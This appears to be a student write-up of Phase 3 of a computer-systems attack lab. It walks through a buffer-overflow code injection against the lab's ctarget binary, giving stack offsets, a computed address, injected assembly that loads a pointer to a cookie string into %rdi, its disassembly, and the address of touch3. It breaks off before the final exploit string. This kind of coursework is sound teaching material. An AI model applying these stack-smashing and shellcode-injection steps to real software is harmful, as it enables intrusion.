 ## Phase 3
Kinda similar to Phase 2, also involves a code injection attack, but passing a string as an argument. The passed paramter $rdi should be changed from a number to a pointer, and the character representation of the cookie should be input. Note that the function hexmatch and strncmp may fill the stack with other data, overwriting it, so we have to be careful where we store it.

Chose to put cookie string at the end to avoid problem of data being overwritten.
total bytes before the cookie are "buffer + 8 bytes for return address of rsp + 8 bytes for touch3".

0x38 + 8 + 8 = 0x48 (72 Decimal)
grab address for rsp from phase 2: 0x55612538
add 0x48
equals 0x55612580, now we need the assembly code, same steps generating the byte representation, lets put it in phase3.s

phase3.s
```
movq $0x55612580, %rdi
retq
```

use commands 
linux > 
linux > 

we should get something like 

phase3.d
```

phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 80 25 61 55 	mov    $0x55612580,%rdi
   7:	c3                   	retq   
```

touch3 address
ctarget.d
```
0000000000401aa0 <touch3>:
  401aa0:	53                   	push   %rbx
  401aa1:	48 89 fb             	mov    %rdi,%rbx
  401aa4:	c7 05 6e 3a 20 00 03 	movl   $0x3,0x203a6e(%rip)        # 60551c <vlevel>
  ...
``` 

Cookie Address in text format: 3131376664303631, use https://www.duplichecker.com/hex-to-text.php (without 0x at front)

grab bytes from above code and start constructing exploit string, create a attack code doc called phase3.txt as shown below
